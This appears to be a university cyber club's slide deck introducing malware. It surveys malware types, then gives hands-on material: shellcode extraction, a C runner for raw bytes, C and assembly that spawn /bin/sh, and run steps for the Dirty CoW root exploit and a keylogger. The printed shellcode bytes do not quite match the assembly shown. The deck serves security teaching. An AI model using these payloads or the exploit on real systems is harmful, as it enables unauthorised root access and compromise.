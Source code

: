 # Introduction To Malware

By: Nick Bulischeck, Foster McLane, Mackenzie Binns

CU Cyber


## You Can Find These Presentations Online

Visit [cucyber.net](https://cucyber.net/) to find these presentations and more online!

<span style="padding-top: 6em; font-size: 0.4em; float: left;">Material: <a href="https://tldrlegal.com/license/creative-commons-attribution-sharealike-4.0-international-(cc-by-sa-4.0)">Creative Commons Attribution-ShareAlike 4.0</a></span><span style="padding-top: 6em; font-size: 0.4em; float: right;">Code: <a href="https://tldrlegal.com/license/bsd-2-clause-license-(freebsd)">BSD 2-Clause</a></span>



# Types


## Rootkits

* rings
* chkrootkit
* DLL Injection (DYLIB for the Mac people)


## RAT

* remote administration tool
* typically accompanied by a rootkit
* DarkComet + PoisonIvy


## Ransomware

* encryption routine
	- AES256, RSA 2048, SHA512, ChaCha20, etc.
* typically has a server component
* CryptoWall


## Worms

* self-propagating
* Stuxnet
* Mirai


## Trojans

* backdoors
* office macros
* FinFisher (Lench/Gamma), Galileo RCS (HT)


## Virus

* spreads by hand
* polymorphic
* deleting files, crashing OS, corrupting files, etc.



# Languages


## Shellcoding

* a set of instructions that are injected by the user and executed by the exploited binary
* x86 Assembly GAS/AT&T vs Intel


## C

* ransomware
* rootkits
* pretty much anything
* not web stuff


## Java

* mobile
* IoT (TVs, fridges)


## Python

* web
* reverse shells



# Fun Time


## Clone Me

```sh
git clone https://github.com/nbulischeck/pcode.git
```


## Shellcoding


### Writing The Assembly

#### first.asm

```asm
global _start
_start:
        push 60
		pop rax
        xor rdi,rdi
		syscall
```


### Getting The Shellcode

```sh
objdump -d ./PROGRAM |grep '[0-9a-f]:'|grep -v 'file' | \
cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' ' | \
sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | \
sed 's/^/"/'|sed 's/$/"/g'
```


### ...Or Just Use What I Wrote

```sh
./getshellcode.py first
```


### Get This

```
\x6a\x3c\x58\x31\xdb\x0f\x05
```


### Run Shellcode

#### codetest.c

```c
const char code[] = "bytecode will go here!";
int main(int argc, char **argv){
  int (*func)();
  func = (int (*)()) code;
  (int)(*func)();
}
```


### Spawning a Shell in C

#### shell.c

```c
#include <stdlib.h>
#include <unistd.h>

int main(){

	char *shell[2];
	shell[0] = "/bin/sh";
	shell[1] = NULL;
	execve(shell[0], shell, NULL);
	exit(0);

}
```


### Spawning a Shell in Assembly

#### shell.asm

```asm
section .text
   global _start
shell:
	pop rdi

	push 59
	pop rax

	xor rsi, rsi
	xor rdx, rdx

	syscall

_start:
	call shell
	db '/bin/sh'
```



## Dirty CoW

* "dirty" copy-on-write, race condition, private read-only memory mappings
* privilege escalation
* works on RHEL7 Linux  x86\_64, Debian 7 ("wheezy")
* Ubuntu 14.04.5 LTS, Ubuntu 16.04.1 LTS, Ubuntu 16.10
* Linux Mint 17.2


### Changing passwords

* `mkpasswd -m sha-512`
* alter genpasswd.py (Python 3.3 vs. others)


### Running

* `./dcow`
* If you won the race, congratulations on root!



## Keylogger

* `sudo ./keylogger`
* do not background it
* /tmp/tmp54e3zO/tmp54e3z0.log


# Questions?
